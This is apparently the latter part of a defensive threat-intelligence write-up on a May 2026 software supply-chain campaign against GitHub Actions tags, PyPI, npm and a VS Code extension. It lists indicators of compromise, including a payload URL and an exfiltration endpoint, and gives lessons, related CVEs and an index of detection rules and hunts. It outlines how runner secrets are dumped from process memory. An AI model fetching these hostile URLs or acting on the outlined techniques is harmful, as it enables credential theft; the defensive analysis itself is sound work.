| url | `https://check.git-service.com/rope.pyz` | payload URL | high | Wiz, 2026-05-19 |
| url | `https://t.m-kosche.com/api/public/version` | exfil endpoint | high | Wiz, 2026-05-19 |
| string | `nrwl.angular-console v18.95.0` | candidate VS Code Marketplace extension | medium | Aikido Security, 2026-05-20 |
| note | `actions-cool/issues-helper` 53 tags + `actions-cool/maintain-one-comment` 15 tags repointed 2026-05-18T19:10:24Z → 19:31:09Z; consult `iocs.csv` for the full 68-SHA imposter-commit list | tag-poisoning ground truth | high | StepSecurity, 2026-05-18 |

Full IOC dump (all 68 imposter SHAs, IoC-byte anchors used by YARA, every
URL path) lives in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **Verizon 2026 DBIR — vulnerability exploitation overtakes credentials
  as dominant initial access vector** (Verizon, 20-May-2026). First time
  since 2017 that CVE-exploitation tops the table; reinforces the
  Day-23 Storm-2949 lesson that identity-only intrusions are the
  *complementary* category — both columns of the matrix must be defended
  in 2026.
- **YellowKey BitLocker bypass (CVE-2026-45585)** — Microsoft published a
  mitigation 20-May-2026 for a pre-boot Windows Recovery Environment flaw
  that lets an attacker with brief physical access bypass BitLocker on
  many enterprise builds. No active exploitation in the wild yet but
  laptop-loss risk profile changes for orgs storing PATs in DPAPI-protected
  stores.
- **NGINX CVE-2026-42945 mass exploitation** (Help Net Security,
  18-May-2026) — critical NGINX vulnerability under active exploitation;
  ties into supply-chain because many GitHub-Actions self-hosted runners
  sit behind ingress-NGINX. CISA KEV addition expected; deadline FCEB to
  follow.

## Pedagogical anchors

- **Tag mutability is the structural weakness.** Git tags can be moved
  silently by anyone with write access on the repo. Pinning by tag is a
  trust-on-first-use shape. The only stable pin is a full commit SHA you
  have hashed and reviewed. SLSA provenance does not catch this — the
  imposter commits are signed by the legitimate maintainer's account
  because the attacker holds the maintainer's credentials.
- **Marketplace extensions are pre-auth code execution on the developer
  endpoint.** VS Code (and JetBrains, and any IDE marketplace) gives
  extensions full file-system, network and process access. There is no
  sandbox. Eleven-minute Marketplace detection windows are not safety
  margins — they are exposure windows. Pin extension versions; pre-stage
  in an isolated lab; or block auto-update on production-critical
  endpoints.
- **`/proc/<PID>/mem` is the GitHub Actions secret jar.** Decrypted
  secrets live in the Runner.Worker process address space at job time.
  Any child process with privilege to read that memory dumps every
  secret. The only protection is preventing arbitrary code execution on
  the runner in the first place — Harden-Runner-style allowlisted egress
  and process tracing.
- **Shared infrastructure across npm/PyPI/Marketplace = same actor.**
  `t.m-kosche.com` appears in actions-cool runners, `@antv` npm
  installs, and `durabletask` PyPI installs in 48 hours. Treat every
  egress to this domain as a TeamPCP confirmation across vector lines.
- **Order of IR operations is the same as Day 18 but with a new trigger.**
  Isolate host BEFORE revoking tokens. The `/v1/models` killswitch path
  in `rope.pyz` mirrors the Day-18 `gh-token-monitor` destructive
  response to HTTP 40x — token revocation without isolation triggers
  destructive wipe.
- **PyPI publish from harvested CI/CD secrets is the new IAB shape.**
  TeamPCP's path to `durabletask` was: dump GitHub secrets from a
  previous victim, find a PyPI token in the dump, publish. The defense
  is org-wide secret scanning with auto-rotation and pre-publish identity
  challenge on PyPI's side.

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | this write-up |
| [kill_chain.svg](./kill_chain.svg) | three-lane intrusion + shared C2 spine diagram |
| [iocs.csv](./iocs.csv) | full IOC dump including all 68 imposter SHAs |
| [sigma/actions_cool_bun_runner_secret_dump.yml](./sigma/actions_cool_bun_runner_secret_dump.yml) | Sigma — process_creation for python3 reading /proc/PID/mem of Runner.Worker |
| [sigma/teampcp_rope_pyz_python_pyz_exec.yml](./sigma/teampcp_rope_pyz_python_pyz_exec.yml) | Sigma — process_creation for python3 executing /tmp/*.pyz |
| [sigma/teampcp_infection_marker_dotcache_sys_update.yml](./sigma/teampcp_infection_marker_dotcache_sys_update.yml) | Sigma — file_event for ~/.cache/.sys-update-check* |
| [kql/teampcp_t_m_kosche_egress_join_developer_endpoint.kql](./kql/teampcp_t_m_kosche_egress_join_developer_endpoint.kql) | KQL — egress to the three IoC anchors joined with developer endpoint context |
| [kql/teampcp_vscode_extension_anomalous_egress_after_install.kql](./kql/teampcp_vscode_extension_anomalous_egress_after_install.kql) | KQL — extension install/update followed by anomalous Code.exe-child egress |
| [kql/teampcp_durabletask_install_burst_then_pyz_drop.kql](./kql/teampcp_durabletask_install_burst_then_pyz_drop.kql) | KQL — pip install durabletask followed by /tmp/*.pyz drop and python3 exec |
| [yara/TeamPCP_rope_pyz_2026.yar](./yara/TeamPCP_rope_pyz_2026.yar) | YARA — heuristic + known-hash anchors for rope.pyz |
| [suricata/teampcp_48h_supply_chain.rules](./suricata/teampcp_48h_supply_chain.rules) | Suricata 7.x — DNS / TLS SNI / HTTP path anchors for the three IoCs |
| [hunts/peak_h1_imposter_commit_runner_memory_read.md](./hunts/peak_h1_imposter_commit_runner_memory_read.md) | PEAK hunt H1 |
| [hunts/peak_h2_rope_pyz_worm_dev_endpoints.md](./hunts/peak_h2_rope_pyz_worm_dev_endpoints.md) | PEAK hunt H2 |
| [hunts/peak_h3_vscode_marketplace_anomalous_egress.md](./hunts/peak_h3_vscode_marketplace_anomalous_egress.md) | PEAK hunt H3 |

## Sources

- [StepSecurity — actions-cool/issues-helper GitHub Action Compromised: All Tags Point to Imposter Commit That Exfiltrates CI/CD Credentials](https://www.stepsecurity.io/blog/actions-cool-issues-helper-github-action-compromised-all-tags-point-to-imposter-commit-that-exfiltrates-ci-cd-credentials)
- [Wiz — durabletask: TeamPCP's Latest PyPi Compromise](https://www.wiz.io/blog/durabletask-teampcp-supply-chain-attack)
- [StepSecurity — Microsoft's durabletask PyPI Package Compromised in Supply Chain Attack](https://www.stepsecurity.io/blog/microsofts-durabletask-pypi-package-compromised-in-supply-chain-attack)
- [Wiz — The Worm That Keeps on Digging: TeamPCP Hits @antv in Latest Wave](https://www.wiz.io/blog/mini-shai-hulud-teampcp-hits-antv-supply-chain)
- [Snyk — The AntV Supply Chain Campaign Expands: Microsoft's durabletask PyPI Package Compromised](https://snyk.io/blog/durabletask-pypi-supply-chain-attack/)
- [Help Net Security — TeamPCP breached GitHub's internal codebase via poisoned VS Code extension](https://www.helpnetsecurity.com/2026/05/20/github-breached-teampcp/)
- [The Hacker News — Popular GitHub Action Tags Redirected to Imposter Commit to Steal CI/CD Credentials](https://thehackernews.com/2026/05/github-actions-supply-chain-attack.html)
- [The Hacker News — GitHub Breached: Employee Device Hack Led to Exfiltration of 3,800+ Internal Repos](https://thehackernews.com/2026/05/github-investigating-teampcp-claimed.html)
- [CyberScoop — GitHub says internal repositories were impacted in poisoned VS Code extension attack](https://cyberscoop.com/github-internal-repositories-vs-code-extension-attack/)
- [Aikido — The Wild West of VS Code extensions and how a poisoned extension breached GitHub](https://www.aikido.dev/blog/vs-code-extension-github-breach)
- [StepSecurity — 5 Supply Chain Attacks in 48 Hours: Why Securing One Layer Is Not Enough](https://www.stepsecurity.io/blog/5-supply-chain-attacks-in-48-hours-why-securing-one-layer-is-not-enough)
